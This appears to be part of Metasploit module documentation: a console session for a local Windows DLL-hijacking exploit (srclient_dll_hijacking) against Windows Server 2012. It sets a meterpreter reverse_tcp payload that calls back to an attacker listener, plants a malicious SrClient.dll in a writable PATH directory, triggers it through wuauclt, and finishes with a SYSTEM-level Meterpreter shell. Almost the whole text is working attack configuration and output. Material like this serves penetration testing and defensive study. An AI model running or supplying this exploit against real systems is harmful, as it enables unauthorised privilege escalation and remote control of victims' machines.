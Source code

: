 ```
   STEALTH_ONLY       false            no        Only exploit if the payload can be triggered without launching the Windows Update UI)
   WAIT_FOR_TIWORKER  0                no        No. of minutes to wait for  TiWorker.exe to finish running if it is already active.
   WRITABLE_PATH_DIR  c:\wynter        no        Path to a writable %PATH% directory to write the payload to.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.91.12    yes       The listen address (an interface may be specified)
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Server 2012 (x64)


msf exploit(windows/local/srclient_dll_hijacking) > run

[*] Started reverse TCP handler on 192.168.91.12:5555 
[*] Executing automatic check (disable AutoCheck to override)
[*] Target is Windows 2012 (6.2 Build 9200).
[*] Obtaining group information for the current user WIN-FCDUOQDT1NB\wynter...
[*] 
[*] Checking for writable directories in %PATH%...
[*] 
[+] WIN-FCDUOQDT1NB\wynter has write permissions to c:\wynter
[+] The target appears to be vulnerable.
[*] Writing 5120 bytes to C:\wynter\SrClient.dll...
[!] Because Windows Update is set to never check for updates, triggering the payload requires launching the Windows Update window on the target.
[*] Trying to trigger the payload via the shell command `wuauclt /selfupdatemanaged`
[*] Sending stage (201283 bytes) to 192.168.91.16
[*] Meterpreter session 9 opened (192.168.91.12:5555 -> 192.168.91.16:49160) at 2021-02-16 09:12:28 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

